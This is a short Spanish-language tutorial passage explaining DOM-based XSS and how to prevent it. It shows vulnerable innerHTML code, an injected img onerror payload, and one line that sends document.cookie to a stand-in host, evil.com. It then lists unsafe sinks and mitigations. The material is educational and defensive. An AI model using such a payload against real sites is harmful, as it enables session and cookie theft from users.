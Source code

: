 Como ya dije, este ataque consiste ne manipular la estructura del HTML para inyectar códigos maliciosos. 

```bash
var search = document.getElementById('search').value; 
var results = document.getElementById('results'); 
results.innerHTML = 'You searched for: ' + search;
```

↓

```bash
You searched for: <img src=1 onerror='/* Bad stuff here... */
```

En este caso el atacante manipula el campo de entrada para poder inyectar el código malicioso. 

Javascript tomará el valor ingresado y lo insertará en el DOM sin sanitizarlo. 

El navegador interpretar el HTML infectado y ejecutará el código malicioso. 

Este es un ejemplo inofensivo, pero se pueden realziar ataques más peligrosos:

```bash
<img src=1 onerror="fetch('https://evil.com/steal?data='+document.cookie)"> 
```

----

## ¿Qué medidas de prevención existen para mitigar el XSS? 

- Codificar la entrada y salida de los datos
  - No permitir el uso de caracteres espaciales
- Evitar la ejecución de scripts insertados en el código HTML
- Evitar el uso de funciones inseguras como
  - Javascript
    - EVAL
    - Domain
    - write()
    - writeIn()
    - innerHTML
    - insertAdjacentHTML
    - onevent
    - Element.outerHTML
  - JQuery
    - add()
    - after()
    - animate()
    - append()
    - before()
    - has()
    - html()
    - index()
   
- Usar librerias para sanitizar los datos
  - HTMLSanitizer
- Establecer el atributo HttpOnly para reducir el impacto de un XSS
- Usar encabezados de respuesta adecuados

---